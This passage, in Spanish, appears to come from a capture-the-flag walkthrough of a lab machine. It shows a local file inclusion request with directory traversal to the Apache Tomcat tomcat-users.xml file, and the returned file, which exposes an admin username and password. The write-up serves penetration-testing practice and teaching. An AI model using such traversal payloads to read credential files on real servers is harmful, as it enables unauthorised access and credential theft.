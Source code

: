 Por lo que vamos a intentar listar algún tipo de fichero que podamos comprometer algún tipo de credenciales para acceder al sistema.

Normalmente, el fichero `tomcat-users.xml` para servidores `Apache Tomcat` suele contener datos somo credenciales validas de administración, no siempre esta en la misma ruta, por lo que la mejor opcion es montarse un server local con `Docker` con las mismas versiones y ver donde se encuentra dicho fichero.

- Indagando podemos observar que el fichero se encuentra en la ruta `/usr/share/tomcat9/etc/tomcat-users.xml` por lo que a través del `LFI` vamos a listarlo y vemos lo que contiene.

```bash
http://megahosting.htb/news.php?file=../../../../../../usr/share/tomcat9/etc/tomcat-users.xml
```

```bash
?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at
      http://www.apache.org/licenses/LICENSE-2.0
  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
<!--
  NOTE:  By default, no user is included in the "manager-gui" role required
  to operate the "/manager/html" web application.  If you wish to use this app,
  you must define such a user - the username and password are arbitrary. It is
  strongly recommended that you do NOT use one of the users in the commented out
  section below since they are intended for use with the examples web
  application.
-->
<!--
  NOTE:  The sample user and role entries below are intended for use with the
  examples web application. They are wrapped in a comment and thus are ignored
  when reading this file. If you wish to configure these users for use with the
  examples web application, do not forget to remove the <!.. ..> that surrounds
  them. You will also need to set the passwords to something appropriate.
-->
<!--
  <role rolename="tomcat"/>
  <role rolename="role1"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
-->
   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>
```
